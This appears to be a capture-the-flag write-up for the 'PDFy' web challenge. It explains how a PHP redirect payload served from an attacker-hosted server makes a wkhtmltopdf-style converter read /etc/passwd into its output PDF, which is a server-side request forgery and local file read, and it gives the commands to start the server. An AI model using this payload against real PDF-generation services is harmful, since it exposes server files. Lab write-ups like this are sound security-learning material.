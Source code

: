 # PDFy writeup
> By Peter (thetaphase), jul 10, 2024

## CHALLENGE DESCRIPTION
Welcome to PDFy, the exciting challenge where you turn your favorite web pages into portable PDF documents! It's your chance to capture, share, and preserve the best of the internet with precision and creativity. Join us and transform the way we save and cherish web content! NOTE: Leak /etc/passwd to get the flag!

## Introduction
I'll walk you through the steps I took to exploit a vulnerability in PDFy to retrieve the `/etc/passwd` file from a server. This method leverages a PHP script to redirect to the target file and uses a temporary server hosted on DigitalOcean.

## Setting Up the Environment

### Hosting a Temporary Server
First, I used a server that I hosted on DigitalOcean. I highly recommend using a temporary server or a server that you use solely for pentesting, as you'll need to expose it to the Internet. 

### Configuring the Firewall
Ensure that port 8080 is allowed in your firewall settings. This is crucial for accessing the PHP server we'll set up.

## Crafting the PHP Payload

### Creating the PHP File
I created a PHP file named `payload.php` with the following content:

```php
<?php header('location:file:///etc/passwd'); ?>
```

This script redirects to the `/etc/passwd` file on the server when accessed.

### Starting the PHP Server
Next, I opened a PHP server on port 8080 with the following command:

```sh
php -S 0.0.0.0:8080
```

This command starts the PHP built-in server, listening on all available IP addresses.

## Exploiting PDFy

### Using the Payload in PDFy
To exploit PDFy, I used the following URL in its input field:

```
http://<YOUR_SERVER_IP>:8080/payload.php
```

Replace `<YOUR_SERVER_IP>` with the actual IP address of your server. In my case, it was `http://137.184.229.44:8080/payload.php`.

### Retrieving the Flag
Once the URL is processed by PDFy, the resulting PDF will contain the contents of the `/etc/passwd` file from the server. The last line of this file will contain our flag.

## Conclusion
By following these steps, you can successfully exploit PDFy to retrieve sensitive files from a server.

## References
https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/